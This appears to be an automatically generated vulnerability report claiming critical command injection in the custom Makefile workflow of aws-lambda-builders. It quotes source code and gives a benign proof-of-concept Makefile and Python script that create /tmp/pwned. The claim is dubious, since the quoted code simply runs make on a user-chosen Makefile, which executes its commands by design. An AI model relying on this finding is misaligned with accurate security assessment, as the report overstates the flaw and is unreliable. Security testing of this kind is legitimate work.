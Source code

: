 ### Vulnerability List

- Vulnerability Name: Command Injection in Custom Makefile Workflow
- Description:
    1. An attacker can create a malicious `Makefile` containing arbitrary commands.
    2. The user utilizes the `aws-lambda-builders` library with the custom Makefile workflow, specifying the path to the malicious `Makefile` as `manifest_path` and providing a `build_logical_id` that corresponds to a malicious target defined in the `Makefile`.
    3. When `LambdaBuilder.build` is executed, the `CustomMakeWorkflow` is triggered.
    4. The `CustomMakeAction` within the workflow executes the `make` command using `subprocess_make.run`.
    5. The `make` command is executed with arguments directly derived from user-controlled inputs: the path to the malicious `Makefile` (`self.manifest_path`) and the malicious target name (constructed using `self.build_logical_id`).
    6. The `make` utility processes the malicious `Makefile` and executes the attacker-injected commands on the user's system.

- Impact:
    - Arbitrary command execution on the user's system running `aws-lambda-builders`.
    - Full system compromise is possible if the attacker crafts a sophisticated payload.
    - Confidentiality, Integrity, and Availability of the user's system can be severely impacted.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
    - No input validation or sanitization is implemented for the `Makefile` content or the `build_logical_id` within the `aws-lambda-builders` project code itself (based on the provided files). The execution of `make` is performed without any apparent security measures to restrict its capabilities.

- Missing Mitigations:
    - Input sanitization: Implement robust input validation and sanitization for both the `Makefile` content and the `build_logical_id` to prevent the injection of malicious commands.
    - Sandboxing/Isolation: Execute the `make` process within a sandboxed or isolated environment with restricted privileges to limit the impact of command injection vulnerabilities.
    - Security Auditing: Conduct regular security audits of the custom Makefile workflow functionality to identify and address potential vulnerabilities.
    - Principle of Least Privilege: Avoid running the `make` process with elevated privileges.

- Preconditions:
    - The user must utilize the `aws-lambda-builders` library and choose the custom Makefile workflow for building Lambda functions.
    - The attacker needs to provide a malicious `Makefile` to the user, for example by convincing the user to download and use a compromised project or template.
    - The user must execute `aws-lambda-builders` with the malicious Makefile.

- Source Code Analysis:
    - File: `/code/aws_lambda_builders/workflows/custom_make/actions.py`
        ```python
        class CustomMakeAction(BaseAction):
            ...
            def execute(self):
                ...
                try:
                    current_env = self.osutils.environ()
                    current_env.update({"ARTIFACTS_DIR": self.artifact_dir_path})
                    self.subprocess_make.run(
                        [
                            "--makefile",
                            "{}".format(self.manifest_path),
                            "build-{logical_id}".format(logical_id=self.build_logical_id),
                        ],
                        env=current_env,
                        cwd=self.working_directory,
                    )
                except MakeExecutionError as ex:
                    raise ActionFailedError(str(ex))
        ```
        - The `CustomMakeAction.execute` method directly calls `self.subprocess_make.run` to execute the `make` command.
        - The arguments to `make` are constructed without sanitization, directly using `self.manifest_path` (user-provided Makefile path) and `self.build_logical_id` (user-provided target name).
        - The environment variable `ARTIFACTS_DIR` is set, but the primary vulnerability lies in the lack of control over the Makefile's content and target execution.

    - File: `/code/aws_lambda_builders/workflows/custom_make/make.py`
        ```python
        class SubProcessMake(object):
            ...
            def run(self, args, env=None, cwd=None):
                ...
                invoke_make = [self.make_exe] + args
                ...
                p = self.osutils.popen(invoke_make, stdout=self.osutils.pipe, stderr=self.osutils.pipe, cwd=cwd, env=env)
                ...
        ```
        - The `SubProcessMake.run` method uses `self.osutils.popen` to execute the `make` command.
        - The `popen` method directly executes the command without any sandboxing or input validation on the command arguments.

- Security Test Case:
    1. Create a file named `malicious_makefile` with the following content:
        ```makefile
        build-test_function:
            touch /tmp/pwned
        ```
    2. Create a temporary directory, e.g., `/tmp/test_vulnerability`.
    3. Save the `malicious_makefile` inside `/tmp/test_vulnerability`.
    4. Execute the following Python code:
        ```python
        import tempfile
        from aws_lambda_builders.builder import LambdaBuilder
        import os

        source_dir = "/tmp/test_vulnerability"
        artifacts_dir = tempfile.mkdtemp()
        scratch_dir = tempfile.mkdtemp()
        manifest_path = os.path.join(source_dir, "malicious_makefile")

        builder = LambdaBuilder(language="provided", dependency_manager=None, application_framework=None)

        try:
            builder.build(
                source_dir,
                artifacts_dir,
                scratch_dir,
                manifest_path,
                runtime="provided",
                options={"build_logical_id": "test_function"},
            )
        except Exception as e:
            print(f"Build failed as expected or encountered an error: {e}")
        finally:
            if os.path.exists("/tmp/pwned"):
                print("Vulnerability confirmed: /tmp/pwned file created.")
                os.remove("/tmp/pwned")
            else:
                print("Vulnerability check failed: /tmp/pwned file not found.")

            import shutil
            shutil.rmtree(artifacts_dir)
            shutil.rmtree(scratch_dir)
            shutil.rmtree(source_dir)
        ```
    5. Run the Python script.
    6. Check the output. If "Vulnerability confirmed: /tmp/pwned file created." is printed, the command injection vulnerability is validated.
